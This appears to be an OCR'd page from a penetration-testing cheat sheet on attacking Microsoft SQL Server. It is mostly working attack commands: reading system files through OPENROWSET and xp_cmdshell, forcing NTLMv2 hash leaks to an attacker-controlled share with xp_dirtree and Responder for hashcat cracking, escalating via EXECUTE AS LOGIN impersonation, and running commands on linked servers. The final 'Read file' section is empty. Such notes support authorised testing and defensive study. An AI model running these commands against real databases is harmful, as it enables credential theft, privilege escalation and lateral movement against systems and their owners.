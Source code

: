 **- Read files**
```
# Bulk load
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
# Exec statemente + linked server
EXECUTE("xp_cmdshell 'type C:\path\to\file'") AT [LOCAL.TEST.LINKED.SRV]
```

**- Grab hash**
```
# Start responder
responder | smbserver share ./ -smb2support
# xp_subdirs/xp_dirtree
EXEC master..xp_dirtree '\\$ATTACKER\share\'
EXEC master..xp_subdirs '\\$ATTACKER\share\'
hashcat 5600 (NTLMv2)
```

- **Impersonate**
1. Identify users

```
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```

2. Check current role
```
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
go
```

3. Impersonate
```
EXECUTE AS LOGIN = 'USER'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
go
4. Revert
REVERT
- All users have access to master db
* USE master
```

- **Linked Servers: to check their privileges**
- show remotes

```
# Find local linked servers . remotes
SELECT srvname, isremote FROM sysservers
# Execute commands at the linked server
EXECUTE('command') at [10.0.0.12\SQLEXPRESS]
# Example: find user inside the linked server
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
# Read file
```
